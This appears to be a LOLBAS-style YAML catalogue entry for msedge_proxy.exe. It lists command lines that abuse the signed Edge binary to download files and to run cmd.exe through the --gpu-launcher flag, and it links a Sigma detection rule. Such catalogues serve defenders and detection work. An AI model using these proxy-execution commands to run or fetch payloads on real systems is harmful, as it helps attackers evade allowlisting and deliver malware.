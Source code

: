 ```yaml
---
Name: msedge_proxy.exe
Full_Path:
  - Path: C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge_proxy.exe
Description: Microsoft Edge Browser
Author: 'Mert Daş'
Created: 2023-08-18
Commands:
  - Command: "C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge_proxy.exe http://example.com/test.zip"
    Description: msedge_proxy will download malicious file.
    Usecase: Download file from the internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
  - Command: "C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge_proxy.exe --disable-gpu-sandbox --gpu-launcher=\"C:\\\\Windows\\\\System32\\\\cmd.exe /c curl ipinfo.io/json --output %USERPROFILE%\\\\Desktop\\\\test.json &&\""
    Description: Edge will silently download the file.
    Usecase: Download file from the internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
  - Command: "C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge_proxy.exe --disable-gpu-sandbox --gpu-launcher=\"C:\\\\Windows\\\\System32\\\\cmd.exe /c ping google.com &&\""
    Description: msedge_proxy.exe will execute file in the background
    Usecase: Executes a process under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 10, Windows 11
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/e1a713d264ac072bb76b5c4e5f41315a015d3f41/rules/windows/process_creation/proc_creation_win_susp_electron_execution_proxy.yml
Acknowledgement:
  - Person: Mert Daş
    Handle: '@merterpreter'
---
```

